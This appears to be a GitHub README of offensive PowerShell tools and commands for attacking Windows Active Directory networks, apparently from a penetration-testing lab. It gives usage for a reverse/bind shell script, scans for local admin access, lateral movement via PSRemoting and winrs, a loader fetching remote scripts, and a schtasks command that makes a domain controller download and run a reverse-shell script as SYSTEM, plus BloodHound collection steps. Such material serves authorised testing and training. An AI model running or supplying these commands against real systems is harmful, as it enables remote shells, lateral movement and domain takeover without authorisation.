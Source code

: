 ## Interesting Tools

### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---

```powershell
C:> Loader.exe -path http:<ip>/<file>.ps1
```
### Task Scheduling
---
```powershell
C:> schtasks /create /S dcorp-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserTASK" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcpEx.ps1''')'"

C:> schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "UserTASK"
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
